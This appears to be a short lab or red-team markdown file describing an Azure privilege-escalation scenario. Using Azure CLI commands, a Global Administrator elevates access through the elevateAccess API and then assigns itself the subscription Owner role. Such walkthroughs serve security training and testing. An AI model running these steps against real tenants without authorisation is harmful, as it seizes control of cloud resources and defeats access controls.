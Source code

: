 # Global Administrator Privesc Scenarios

## Scenario 1 steps:

 - az login (Login as the Global Admin)

 - az login --allow-no-subscriptions (Get tenant-level access, then sign in again)

 - az rest --method post --url "/providers/Microsoft.Authorization/elevateAccess?api-version=2016-07-01" (Exploit the Global Admin role to modify privileges to Azure resources)

 - az logout

 - az login (Reauthenticate back)

 - userPrincipalName=$(az ad signed-in-user show --query userPrincipalName -o tsv)

 - az role assignment create --role "Owner" --assignee $userPrincipalName (Assign the subscription Owner role to the Global Administrator account)

### The commands will be successful, proving that you have used your elevated Global Administrator role to modify permissions for Azure resources!

